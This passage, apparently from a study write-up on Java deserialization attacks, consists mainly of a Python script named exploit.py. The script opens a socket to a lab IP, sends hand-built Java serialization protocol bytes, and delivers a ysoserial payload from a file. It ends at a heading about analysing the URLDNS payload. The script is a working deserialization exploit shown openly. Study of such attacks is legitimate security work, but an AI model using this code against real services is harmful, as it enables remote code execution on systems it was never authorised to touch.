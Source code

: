 ```jsx
import socket

ip = "192.168.83.129"
port = 4430
payload = "p.bin"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))

data = '\xac\xed\x00\x05' # Serialization handshake
s.sendall(data)

data = '\x77\x04'
data2= '\xf0\x00\xba\xaa' # TC_BLOCKDATA
s.sendall(data)
s.sendall(data2)

data = '\x77\x02' # Protocol version
data2 = '\x01\0x1'
s.sendall(data)
s.sendall(data2)

data = '\x77\x06' # depends on username 06 is string lenght +2
data2 = '\x00\x04\x74\x65\x73\x74' # 00 04 is string lenght, the 4 bytes T E S T
s.sendall(data)
s.sendall(data2)

f = open(payload, "rb") #ysoserial payload without first 4 bytes
c = f.read()
s.send(c[4:])
```

- `exploit.py`
    
    ![Untitled](../assets/img/study/attackserialization/Untitled%2036.png)
    

### ***6º Analysis of URLDNS Payload***
